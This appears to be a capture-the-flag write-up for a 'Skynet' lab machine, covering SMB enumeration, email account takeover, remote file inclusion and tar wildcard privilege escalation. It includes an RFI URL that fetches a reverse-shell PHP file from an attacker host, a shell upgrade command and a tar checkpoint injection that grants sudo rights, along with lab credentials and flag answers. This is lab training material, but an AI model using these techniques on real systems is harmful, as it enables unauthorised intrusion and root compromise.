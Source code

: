 # SKYNET

## BASIC INFO
```
export IP=10.10.126.157
```

## DEPLOY AND COMPROMISE THE VULNERABLE MACHINE
> - **What is Miles password for his emails?**
>> cyborg007haloterminator

With nmap we saw that smb port is open.\
Using enum4linux we know that there's a *anonymous* user on it.\
Log in with anonymous and blank password, then download log1.txt.\
Inside is a list of possible password for Miles.

> - **What is the hidden directory?**
>> /45kra24zxs28v3yd

When logged in to Miles email we saw there's a password reset email that is sent to him.\
Inside contains his new password.\
Log in to his account now
```
miledyson:)s{A&2Z=F^n_E.B`
```

> - **What is the vulnerability called when you can include a remote file for malicious purposes?**
>> Remote file inclusion

> - **What is the user flag?**
>> 7ce5c2109a40f958099283600a9ae807

EXploit the machine with RFI.\
Using the following link we can upload [rev_shell.php](rev_shell.php) to the machine and run it. Remember to set up a listener.
```
http://10.10.126.157/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.8.8.177:8000/rev_shell.php
```

Once we got a shell, we can spawn a stable shell with the following command.
```
python -c "import pty; pty.spawn('/bin/bash')"
```
Then we can just `cat /home/milesdyson/user.txt`

> - **What is the root flag?**
>> 3f0372db24753accc7179a282cd6a949

With linpeas and some manual enumeration reveals a backup jobs running as root and using tar. Some google on tar wildcard injection later and we come out with an exploit.
First we move to /var/www/html where the file is backup from.
Then running the following command.
```
echo 'echo "www-data ALL=(root) NOPASSWD: ALL"> /etc/sudoers' > privesc.sh
echo "/var/www/html" > "--checkpoint-action=exec=sh privesc.sh"
echo "/var/www/html" > "--checkpoint=1"

```

This exploit abuse the wildcatd in "tar * " into using file names as command arguments.\
Wait for a moment then we run `sudo -l` to confirm that our exploit has been success.\
```
User www-data may run the following commands on skynet:
	(root) NOPASSWD: ALL
```